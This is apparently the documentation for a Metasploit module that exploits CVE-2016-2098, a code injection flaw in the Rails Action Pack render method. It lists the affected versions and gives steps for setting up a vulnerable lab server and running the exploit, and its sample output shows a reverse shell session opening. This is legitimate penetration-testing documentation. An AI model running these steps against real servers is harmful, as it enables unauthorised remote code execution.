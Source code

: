 rails_actionpack_inine_exec is a module that exploits the render method in Action Pack.
Applications that pass unverified user input to the ```render``` method in a controller
or view may be vulnerable to code injection.

## Vulnerable Application

Action Pack versions prior to 3.2.22.2, 4.1.14.2, and 4.2.5.2 use unsafe dynamic rendering.

## Verification Steps

Assuming you have the right requirements to run a rails server, you can use the following fork
to set up the vulnerable server for testing:

1. Do: ```git clone https://github.com/wchen-r7/dh-CVE_2016_2098.git```
2. Do: ```bundle install```
3. Do: ```rails -s -b 0.0.0.0```
4. Start msfconsole
5. Do: ```use exploit/multi/http/rails_actionpack_inline_exec```
6. Do: ```set RHOST [rails server IP]```
7. Do: ```set RPORT 3000```. 3000 is the default port for the rails server.
8. Do: ```set targeturi /exploits```
9. Configure the rest of the options (for the modules or the payload)
10. Do: ```exploit```, and you should get a session:

```
msf exploit(rails_actionpack_inline_exec) > run

[*] Started reverse TCP handler on 192.168.146.1:4444 
[*] Sending inline code to parameter: id
[*] Command shell session 1 opened (192.168.146.1:4444 -> 192.168.146.161:56661) at 2016-07-07 15:56:00 -0500
```

## Options

To use this module, you must manually discover the correct values for these datastore options:

**TARGETURI**

The path to a vulnerable Ruby on Rails application.

**TARGETPARAM**

The target parameter to inject with inline code.
